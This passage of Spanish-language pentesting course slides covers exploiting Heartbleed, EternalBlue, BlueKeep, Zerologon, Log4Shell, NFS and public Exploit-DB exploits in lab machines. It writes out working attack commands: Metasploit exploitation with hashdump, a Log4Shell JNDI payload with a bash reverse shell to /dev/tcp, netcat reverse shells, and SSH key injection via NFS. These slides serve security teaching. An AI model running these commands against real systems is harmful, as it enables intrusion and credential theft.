  \item Se puede explotar desde Metasploit con el módulo
    \href{https://www.rapid7.com/db/modules/auxiliary/scanner/ssl/openssl_heartbleed/}{auxiliary/scanner/ssl/openssl\_heartbleed}.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.72\textheight,keepaspectratio]{img/sl069_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio: Heartbleed en Docker}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl070_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes explotar Heartbleed en \href{https://hub.docker.com/r/jas9reet/heartbleed}{este contenedor Docker}.
  \end{itemize}
\end{frame}

\begin{frame}{EternalBlue (CVE-2017-0144)}
\small
  \begin{itemize}
  \item EternalBlue es un exploit desarrollado (supuestamente) por la NSA y filtrado por The Shadow Brokers.
  \item Se aprovecha de tres fallos independientes del protocolo SMBv1 en sistemas Windows.
  \item Fue utilizado en el ataque mundial de ransomware \href{https://es.wikipedia.org/wiki/WannaCry}{WannaCry} del 12 de mayo de 2017.
  \item Microsoft había publicado el parche (MS17-010) dos meses antes del brote. El problema no fue la falta de parche, sino la falta de despliegue.
  \end{itemize}
\begin{center}
\includegraphics[width=0.45\textwidth,height=0.4\textheight,keepaspectratio]{img/sl071_1.jpg}
\end{center}
\end{frame}

\begin{frame}{EternalBlue: explotación con Metasploit}
\small
Explotación de EternalBlue con Metasploit:
\begin{center}
\includegraphics[width=0.68\textwidth,height=0.76\textheight,keepaspectratio]{img/sl072_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio: EternalBlue en Win7x64}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl073_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes explotar EternalBlue en esta máquina Windows \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/Eb8U38L5EZVJmgHx_9jDirkBbdgl_WJ938VZniuBY8e00A?e=ufkKh9}{Win7x64} vulnerable.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: room \emph{Blue} (TryHackMe)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl074_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes explotar EternalBlue en el laboratorio \href{https://tryhackme.com/room/blue}{Blue} de TryHackMe.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio: máquina Microchof (EternalBlue)}
\footnotesize
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.36\textheight,keepaspectratio]{img/sl074_1.jpg}
\end{center}
  \begin{itemize}
  \item Objetivo: comprometer Microchof (TheHackerLabs), un Windows vulnerable a MS17-010, hasta obtener una shell SYSTEM.
  \item Pasos: reconocimiento SMB $\rightarrow$ módulo eternalblue $\rightarrow$ Meterpreter como \cmd{NT AUTHORITY\textbackslash{}SYSTEM} $\rightarrow$ postexplotación.
  \item Alternativa manual: AutoBlue-MS17-010 (sin Metasploit).
  \end{itemize}
\cmdbox{\# 1) detectar la vulnerabilidad\\
nmap -p445 --script smb-vuln-ms17-010 TARGET\\[2pt]
\# 2) explotar\\
msfconsole\\
use exploit/windows/smb/ms17\_010\_eternalblue\\
set RHOSTS TARGET\\
set LHOST tun0\\
exploit\\[2pt]
\# 3) ya eres SYSTEM\\
getuid\\
hashdump}
  \begin{itemize}
  \item El volcado de hashes con \cmd{hashdump} y su posterior craqueo se tratan en el \textbf{Tema 3.1 (Ataques a las credenciales)}.
  \end{itemize}
\end{frame}

\begin{frame}{BlueKeep (CVE-2019-0708)}
\small
  \begin{itemize}
  \item Vulnerabilidad muy crítica en el servicio RDP (escritorio remoto) de algunos sistemas Windows.
  \item Un atacante puede intentar conectarse al sistema destino mediante RDP y, al enviar un paquete especialmente diseñado, establecer el valor del ID del canal en algo que el servicio RDP no espera. Eso provoca un error de corrupción de memoria que crea las condiciones para la ejecución remota de código.
  \item Es \emph{wormable}: no requiere autenticación previa, por lo que puede propagarse sola por la red.
  \item Fue tan grave que Microsoft publicó parches incluso para Windows XP y Server 2003, ya fuera de soporte. El gusano masivo que se temía nunca llegó a materializarse.
  \item El exploit es poco fiable: un fallo en la corrupción de memoria provoca un pantallazo azul en el objetivo. Conviene saberlo antes de lanzarlo en una auditoría real.
  \end{itemize}
\end{frame}

\begin{frame}{BlueKeep: explotación con Metasploit}
\small
Explotar BlueKeep con Metasploit:
\cmdbox{use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce}
\begin{center}
\includegraphics[width=0.75\textwidth,height=0.62\textheight,keepaspectratio]{img/sl077_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio: BlueKeep en Win7x64}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl078_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes explotar BlueKeep habilitando el escritorio remoto en esta máquina \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/Eb8U38L5EZVJmgHx_9jDirkBbdgl_WJ938VZniuBY8e00A?e=ufkKh9}{Win7x64} vulnerable.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: DoS contra RDP (MS12-020)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.38\textheight,keepaspectratio]{img/sl079_1.jpg}
\end{center}
  \begin{itemize}
  \item También puedes realizar un ataque de tipo DoS al RDP del Windows 7, como se describe \href{https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/}{aquí}:
    \begin{itemize}
    \item Vulnerabilidad MS12-020.
    \item Módulo para determinar si es vulnerable: \cmd{auxiliary/scanner/rdp/ms12\_020\_check}
    \item Módulo para explotar el DoS: \cmd{auxiliary/dos/windows/rdp/ms12\_020\_maxchannelids}
    \end{itemize}
  \item Recuerda: los módulos de DoS dejan el servicio caído. Solo en el laboratorio. Los ataques de denegación de servicio se estudian a fondo en el \textbf{Tema 3.4}.
  \end{itemize}
\end{frame}

\begin{frame}{Zerologon (CVE-2020-1472)}
\small
  \begin{itemize}
  \item Afecta a todos los controladores de dominio Windows Server, desde la versión 2008 hasta la 2019.
  \item Tiene una criticidad de 10 sobre 10 (CVSS v3.1 = 10.0).
  \item Zerologon aprovecha un error en la implementación del cifrado AES-CFB8 usado por el protocolo Netlogon, que permite a un atacante autenticarse sin conocer la contraseña real.
  \item Un atacante con acceso a la red interna puede hacerse pasar por un controlador de dominio (DC) y obtener privilegios de administrador de dominio (Domain Admin) en segundos.
  \item El exploit funciona enviando paquetes especialmente manipulados al servicio Netlogon remoto, forzando repetidos intentos hasta que la autenticación falsa tiene éxito.
  \item Con un vector de inicialización de ceros, una de cada 256 claves produce un cifrado de ceros: bastan unos 256 intentos, cuestión de segundos.
  \item Aviso: el exploit deja la contraseña de la cuenta del DC a cero y puede romper el dominio. Nunca se lanza en producción sin restaurarla después.
  \end{itemize}
\end{frame}

\begin{frame}{Log4Shell (CVE-2021-44228 y relacionadas)}
\small
  \begin{itemize}
  \item Log4j es una biblioteca de código abierto desarrollada en Java por la Apache Software Foundation que permite a los desarrolladores escribir mensajes de registro, cuyo propósito es dejar constancia de una determinada transacción en tiempo de ejecución.
  \item Al incluir datos que no son de confianza en el mensaje registrado de una versión afectada de Apache Log4j, un atacante puede forzar una conexión a un servidor malicioso mediante una búsqueda JNDI (\emph{Java Naming and Directory Interface}). El resultado: ejecución remota de código desde cualquier lugar del mundo.
  \item CVSS v3.1 = 10.0 y presencia inmediata en el catálogo KEV de CISA.
  \item Su gravedad real vino de la ubicuidad de la librería: estaba embebida en miles de productos cuyos responsables ni siquiera sabían que la usaban.
  \item La cadena de ataque es sorprendentemente sencilla: basta con que un dato controlado por el atacante ---un \cmd{User-Agent}, un nombre de usuario--- acabe en una línea de log.
  \end{itemize}
\fuente{Ficha completa: \href{https://nvd.nist.gov/vuln/detail/CVE-2021-44228}{NVD --- CVE-2021-44228}. Las CVE-2021-45046 y CVE-2021-45105 son los fallos aparecidos al corregir la primera.}
\end{frame}

\begin{frame}{Ejercicio: máquina vulnerable a Log4Shell}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl082_1.jpg}
\end{center}
  \begin{itemize}
  \item Descárgatela \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/ERnYFnatJgVHg15jZvHAMnUBkQauLubaTU5-BdzC4OdGxw?e=D1867Q}{aquí}.
  \item O también puedes usar \href{https://vxrl.medium.com/log4j-demonstration-450e418c49ae}{esta máquina en Docker}.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Log4Shell en HackTheBox: máquina Unified}
\footnotesize
  \begin{itemize}
  \item Objetivo: UniFi Network Application con Log4j vulnerable. Vector: el parámetro \cmd{remember} del login interpreta expresiones JNDI.
  \end{itemize}
\lead{Paso 1 --- Confirmar la vulnerabilidad}
\cmdbox{\{"remember":"\$\{jndi:ldap://TU\_IP/test\}","username":"x","password":"x"\}\\
tcpdump -i tun0 port 389 \ \ \# confirma la petición LDAP entrante}
\lead{Paso 2 --- Servidor LDAP malicioso (RogueJNDI)}
\cmdbox{git clone https://github.com/veracode-research/rogue-jndi \&\& cd rogue-jndi\\
mvn package -q\\
echo \textquotesingle{}bash -c "bash -i >/dev/tcp/TU\_IP/4444 0>\&1"\textquotesingle{} | base64\\
java -jar target/RogueJndi-1.1.jar --command \textbackslash{}\\
\ \ "bash -c \{echo,BASE64\_PAYLOAD\}|\{base64,-d\}|\{bash,-i\}" --hostname TU\_IP}
\lead{Paso 3 --- Lanzar el exploit y recoger la shell}
\cmdbox{\{"remember":"\$\{jndi:ldap://TU\_IP:1389/o=tomcat\}","username":"x"\}\\
nc -lvp 4444 \ \ \# recibe la reverse shell\\[2pt]
\# Postexplotación: MongoDB interno\\
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"}
  \begin{itemize}
  \item Fíjate en que el \cmd{tcpdump} del paso 1 es la confirmación fuera de banda: aunque la aplicación no devuelva nada, la petición LDAP saliente demuestra que el payload se ha interpretado.
  \end{itemize}
\end{frame}

\section{Exploits in the wild}

\begin{frame}{Los límites de Metasploit}
\small
  \begin{itemize}
  \item Metasploit facilita mucho la interacción con los exploits y la carga de diferentes payloads, pero\dots
  \item Metasploit solo incluye un subconjunto de todo el espectro de exploits que existen en la comunidad.
  \item En algunas ocasiones tendremos que usar exploits no preparados para Metasploit.
  \item Esto pasa por estudiar cada exploit en concreto: en qué lenguaje está desarrollado, si hay que compilarlo, qué parámetros acepta, cómo configurar el payload, etc. Y todo ello de manera manual, sin la ayuda de los comandos y extensiones de Metasploit.
  \item Regla de seguridad: un exploit descargado de internet es \textbf{código ajeno que vas a ejecutar}. Léelo antes. Hay PoC públicas que son en realidad puertas traseras contra quien las usa.
  \end{itemize}
\end{frame}

\begin{frame}{¿Dónde buscar exploits?}
\small
  \begin{itemize}
  \item \href{https://www.exploit-db.com/}{Exploit-DB}
  \item \href{https://sploitus.com/}{Sploitus}
  \item El comando \cmd{searchsploit} en Kali (en Parrot habría que instalarlo \href{https://www.puckiestyle.nl/install-searchsploit-on-parrot/}{así}).
  \item \href{https://github.com/qazbnm456/awesome-cve-poc}{Awesome CVE PoC} --- recopilación de pruebas de concepto por CVE.
  \item GitHub: buscar por el identificador del CVE suele dar con la PoC más reciente, aunque sin ningún filtro de calidad ni de confianza.
  \end{itemize}
\cmdbox{searchsploit vsftpd 2.3.4 \ \ \ \# buscar\\
searchsploit -x 17491 \ \ \ \ \ \ \ \ \# ver el código antes de ejecutarlo\\
searchsploit -m 17491 \ \ \ \ \ \ \ \ \# copiarlo al directorio actual}
\end{frame}

\begin{frame}{Ejercicio: vsftpd de forma manual}
\small
  \begin{itemize}
  \item Explota la vulnerabilidad de vsftpd de Metasploitable2 de manera manual:
    \begin{itemize}
    \item Encuentra el exploit fuera de Metasploit.
    \item Ejecútalo y consigue ejecución remota de comandos.
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl099_1.jpg}
\end{center}
\end{frame}

\begin{frame}{Ejercicio: Samba CVE-2007-2447 de forma manual}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl102_1.jpg}
\end{center}
  \begin{itemize}
  \item Explota la vulnerabilidad CVE-2007-2447 en el servicio Samba de Metasploitable2 de manera manual, con este exploit:
    \begin{itemize}
    \item \href{https://github.com/Ziemni/CVE-2007-2447-in-Python}{CVE-2007-2447-in-Python}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo: Easy File Management Web Server}
\small
  \begin{itemize}
  \item La aplicación Easy File Management Web Server, que antes se ha explotado con Metasploit, también tiene un exploit manual hecho en Python:
    \href{https://www.exploit-db.com/exploits/33610}{exploit-db.com/exploits/33610}. También se puede buscar con \cmd{searchsploit}. También valdría la aplicación Easy File Sharing Web Server 7.2: \href{https://www.exploit-db.com/exploits/42186}{exploit-db.com/exploits/42186}
  \item Descargar la ``Vulnerable App'' del repositorio anterior.
  \item Descargar el exploit, o usar el comando \cmd{searchsploit}.
  \end{itemize}
\begin{center}
  
\includegraphics[width=0.86\textwidth,height=0.4\textheight,keepaspectratio]{img/sl088_2.png}
\end{center}
\end{frame}

\begin{frame}{Ejecución del script de Python}
\small
  \begin{itemize}
  \item Ejecutamos el script de Python:
  \end{itemize}
\begin{center}
  
\includegraphics[width=0.62\textwidth,height=0.68\textheight,keepaspectratio]{img/sl088_1.png}
\end{center}
\end{frame}

\begin{frame}{¿Por qué se abre la calculadora?}
\small
  \begin{itemize}
  \item ¿Por qué aparece la calculadora?
  \item ¿Cómo lo cambiarías?
  \end{itemize}
\begin{center}
\includegraphics[width=0.6\textwidth,height=0.68\textheight,keepaspectratio]{img/sl090_1.png}
\end{center}
\fuente{Pista: \cmd{calc.exe} es la shellcode «de demostración» que traen muchas PoC. Demuestra la ejecución de código sin hacer nada dañino\dots\ y sin dar acceso al atacante.}
\end{frame}

\begin{frame}{La shellcode dentro del exploit}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl089_3.png}
\end{center}
\end{frame}

\begin{frame}{Sustituir el payload por una reverse shell}
\small
  \begin{itemize}
  \item Cambiar el payload por una reverse shell.
  \end{itemize}
\begin{center}
\includegraphics[width=0.86\textwidth,height=0.62\textheight,keepaspectratio]{img/sl091_1.png}
\end{center}
\end{frame}

\begin{frame}{Recoger la sesión con el handler}
\small
  \begin{itemize}
  \item Nos ponemos a la escucha con el handler y ejecutamos el exploit.
  \end{itemize}
\begin{center}
\includegraphics[width=0.8\textwidth,height=0.6\textheight,keepaspectratio]{img/sl092_1.png}
\end{center}
  \begin{itemize}
  \item También se puede hacer con Metasploit: \cmd{windows/http/easyfilesharing\_post}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: Easy File Manager en Windows 7}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl093_1.jpg}
\end{center}
  \begin{itemize}
  \item A partir de la máquina \href{https://pruebasaluuclm-my.sharepoint.com/personal/joseluis_martinez_uclm_es/_layouts/15/onedrive.aspx?id=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs\%2FWin7\%2Eova&parent=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs&originalPath=aHR0cHM6Ly9wcnVlYmFzYWx1dWNsbS1teS5zaGFyZXBvaW50LmNvbS86dTovZy9wZXJzb25hbC9qb3NlbHVpc19tYXJ0aW5lel91Y2xtX2VzL0VTM2IzWVIyMmFSR2dueC1HWEFlLVA4QmdvbEtYdjEybWdwbzBsQWZybi1JNkE\%5FcnRpbWU9TFZJMTJFY2oyVWc}{Win7} puedes explotar de manera manual la aplicación Easy File Manager, que viene instalada.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: Easy File Sharing Web Server 7.2}
\small
  \begin{itemize}
  \item Explota la siguiente vulnerabilidad de manera manual (sin Metasploit):
    \begin{itemize}
    \item Easy File Sharing Web Server 7.2 --- descárgala \href{https://www.exploit-db.com/apps/60f3ff1f3cd34dec80fba130ea481f31-efssetup.exe}{aquí}.
    \item Hay varios exploits disponibles:
      \begin{itemize}
      \item \href{https://www.exploit-db.com/exploits/44522}{44522} $\cdot$
            \href{https://www.exploit-db.com/exploits/44485}{44485} $\cdot$
            \href{https://www.exploit-db.com/exploits/42165}{42165} $\cdot$
            \href{https://www.exploit-db.com/exploits/47411}{47411}
      \end{itemize}
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl105_1.jpg}
\end{center}
\end{frame}

\begin{frame}{Ejercicio: máquina Experience (MS08-067)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl101_1.jpg}
\end{center}
  \begin{itemize}
  \item La máquina Experience es un Win7 vulnerable a MS08-067 (CVE-2008-4250), de \href{https://vulnyx.com/}{VulnyX}. Puedes resolverla:
    \begin{itemize}
    \item Con Metasploit.
    \item Con un exploit \emph{in the wild} y comparar ambos enfoques.
    \item Descárgatela \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/EfFkmUXI91RFncmDbY-sEL4BJyyjGJ7UHnMha2wy-7v-YA?e=GFcYFn}{aquí}.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: Konica Minolta FTP Utility (CVE-2015-7768)}
\small
  \begin{itemize}
  \item Explota la vulnerabilidad CVE-2015-7768 de Konica Minolta FTP Utility 1.00 en una máquina Windows 7, con el exploit:
    \begin{itemize}
    \item \href{https://www.exploit-db.com/exploits/39215}{exploit-db.com/exploits/39215}
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl103_1.jpg}
\end{center}
\end{frame}

\begin{frame}{No todo es Metasploit}
\small
  \begin{itemize}
  \item No todo en el pentesting es Metasploit: también se puede hacer de manera ``manual''. Por ejemplo:
    \begin{itemize}
    \item Puerto 111 (\cmd{rpcbind}) y puerto 2049 (\cmd{nfs}): montar el recurso exportado y abusar de \cmd{authorized\_keys}.
    \item Puerto 3306 (\cmd{mysql}): conexión directa con credenciales débiles.
    \end{itemize}
  \item A menudo la vía manual es más rápida y mucho más silenciosa que cargar un módulo: no hay firmas de payload ni tráfico reconocible.
  \end{itemize}
\cmdbox{mysql -u root -p -h <IP\_VICTIMA>}
\end{frame}

\begin{frame}{Explotación manual de NFS (puerto 2049)}
\footnotesize
  \begin{itemize}
  \item NFS sin autenticación en Metasploitable2: el puerto 111 (\cmd{rpcbind}) y el 2049 (NFS) exportan \cmd{/} sin restricciones.
  \end{itemize}
\lead{Paso 1 --- Descubrir las exportaciones}
\cmdbox{nmap -sV -p 111,2049 <IP\_VICTIMA>\\
showmount -e <IP\_VICTIMA> \ \ \# muestra: / * (accesible por cualquier IP)}
\lead{Paso 2 --- Montar el sistema de ficheros remoto}
\cmdbox{mkdir /tmp/nfs\_root\\
mount -t nfs <IP\_VICTIMA>:/ /tmp/nfs\_root -o nolock}
\lead{Paso 3 --- Escalar a root vía authorized\_keys}
\cmdbox{ssh-keygen -t rsa -f /tmp/attacker\_key\\
cat /tmp/attacker\_key.pub >> /tmp/nfs\_root/root/.ssh/authorized\_keys\\
ssh -i /tmp/attacker\_key root@<IP\_VICTIMA> \ \ \# acceso root sin contraseña}
  \begin{itemize}
  \item La causa raíz es la opción \cmd{no\_root\_squash} en \cmd{/etc/exports}: sin ella, el \cmd{root} del atacante se mapearía al usuario \cmd{nobody} y el ataque no funcionaría.
  \end{itemize}
\end{frame}

\begin{frame}{Con Metasploit y sin Metasploit}
\small
Con Metasploit tenemos la capacidad de\dots
  \begin{itemize}
  \item Explotar la vulnerabilidad:
    \begin{itemize}
    \item Ejecutar el payload seleccionado.
    \item Y también recoger la sesión (ya sea reversa o bind).
    \end{itemize}
  \item En un contexto fuera de Metasploit, los exploits pueden ser muy diversos y además tenemos que:
    \begin{itemize}
    \item Generar los payloads con \cmd{msfvenom}.
    \item Recoger la sesión con \cmd{multi/handler} de Metasploit, aunque también podemos hacerlo fuera de Metasploit con \cmd{netcat}.
    \end{itemize}
  \end{itemize}
\lead{Netcat nos permite enviar y recibir shells}
\cmdbox{atacante (servidor): nc -lvp 4444\\
víctima (exploit): \ \ nc <IP\_ATACANTE> 4444 -e /bin/sh}
\fuente{Ojo: la opción \cmd{-e} no existe en la versión de netcat que traen muchas distribuciones modernas (\cmd{netcat-openbsd}) por considerarse insegura.}
\end{frame}

\begin{frame}{Jenkins: Script Console}
\footnotesize
  \begin{itemize}
  \item \cmd{Manage Jenkins} $\rightarrow$ \cmd{Script Console}: ejecuta Groovy sobre la JVM con los permisos del servicio $\rightarrow$ ejecución de código directa.
